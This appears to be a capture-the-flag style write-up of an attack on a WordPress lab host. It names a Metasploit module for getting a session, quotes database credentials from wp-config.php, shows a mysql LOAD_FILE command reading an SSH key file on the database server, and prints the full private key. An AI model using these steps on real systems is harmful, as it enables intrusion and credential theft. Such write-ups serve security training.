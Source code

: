 We can use the `exploit/unix/webapp/wp_revslider_upload_execute` metasploit module to get a session.

In `/var/www/wp-config.php` are credentials for the database server:

```
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'wordpress');

/** MySQL database password */
define('DB_PASSWORD', '0NYa6PBH52y86C');

/** MySQL hostname */
define('DB_HOST', '172.30.0.2');
```

There is also a txt file called note.txt which reads:
>Your ssh key was placed in /backup/id_rsa on the DB server.

We login to the database server using mysql:

```
root@kali:~# mysql -h 172.30.0.2 -u wordpress -p0NYa6PBH52y86C

MySQL [(none)]> set @idrsa = LOAD_FILE('/backup/id_rsa');
Query OK, 0 rows affected (0.376 sec)

MySQL [(none)]> select @idrsa
```

Private Key:
```
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA3Z35DpTcnm4kFkkGp6iDXqvUNH+/+hSDOY6rXsa40WMr7rjc
tHh8TgOBFZ6Rj5VzU/jY8O0qHxiPVn7BCYKhqyp1V1l9/ZCPRSjRLYy62dVTiHUt
ZbiPiY9+biHIsQ/nZfwiHmwlb0sWDoyFvX3OL/3AFMcYpZ4ldHQuwszJF4DeTV33
ruSBoXIiICQyNJBHTboVel+WXAfMNumYMVNrtrwpNoD7whv9Oa2afUejXMJL42Rw
8Xhab59HIIL9fl68FqgggVI4X3d/fzqKKGyoN5JxBLmQTCiVxhxTMv9OS0MhdSg6
Nh3+lf/wUuweUQXqmohvETntwwGs8jnJGCyeDwIDAQABAoIBAHGVRpG/n/cfMiWt
1dhWGMaLwJ4Ln6QXoU39nj1cEltWvayDWLKyUdtWFnGzLJ1vloVCNEX+96iqWMSX
AG7UYfGtOCjFuDoePh/PFK6IwzdkC4UTsWnCFucFAWKGtCpzoUB24jG/ccxBqpNY
WC9PbD7SigDcLfisPjwaU+EJPkNpl93VBk1BCJRbvWF+Wl/si3wmMZ0YRoyIAF5L
oBsq935xH8kJcixSVYKjG3hMUZfiLoQB+p/IFsxDlfGLE+M1esTZ5GIRjj+t7vBN
l2JZTY893gjfQzUv2WrJXzMhJvWGzOCsRRc4gOSeS6GYiip8glqg8iWHpWdgF6i9
oAQx5pkCgYEA7oTmvy0cXvhPjkEbrizCCqf6sXfZps5e6eminTTBGA8NW/Uq+SQv
5JEYxvIL+qMH6cKkc8rBaNhgy3vnv+UgE1PUFI0UWFGKb+OpzzvY/zkmf03enxrl
SK+QXH4FS9f7leivZRVEWBq1kDVIqHZtybYGg0etOvHYX0GwqV2UTy0CgYEA7dv0
bxz6CO9bhxxpXRrrykX2Z57J3JW2I3yVkCY+4Y6x106K11X+b1547kEZk40i2Ugc
iE6jcYIRiYNiSgb0Ph4uxZHFlvBr8JA2fGHYIAnGRcoc1Gzgz5omRvU9H8uy5ipO
LyZ2dnMgXRVOjuXoN4UZR2rgWmJVLD1q7eKnh6sCgYAnVOUUC2VNR9celx/wZdMN
nMubLi9G8Wr3WZ6GG+fnhrvmORSABvaa005pqApPp0irxHwH2BxypJO5mlIJ88eJ
SF6FkQoU0kVo0/rxgGX1GEB/56BZTj8W8FR23BUVf6UuADPEEHC3spfUEuVLWlQa
WhjS1yP6v1y1wIhYNWU6dQKBgQDbZ1zdcXkh7MgcpRR7kW2WM1rK0imZk29i5HSB
dwXhwWJCHGztnKEJ0bby7pHNDQ7sJhxLj14sQbIzikGLz0ZUVjsGeyQryrGGQUBB
E2/sfZeqoHhfad8lICfWpDgxsA/hR3y++VekgyWDNzgzj9bX/6oFuowgUzwFhtGv
hLbL6QKBgQCvcDMmWs2zXwmIo1+pIHUUSv2z3MWb0o1dzHQI/+FJEtyQPwL1nCwg
bJaC0KT45kw0IGVB2jhWf0KcMF37bpMpYJzdsktSAmHdjLKdcr6vw2MNpRapaNQe
On0QmLzbpFr9kjqorinKVkjk/WlTo9rKDSrLiUueEVYTxEMCi92giw==
-----END RSA PRIVATE KEY-----
```

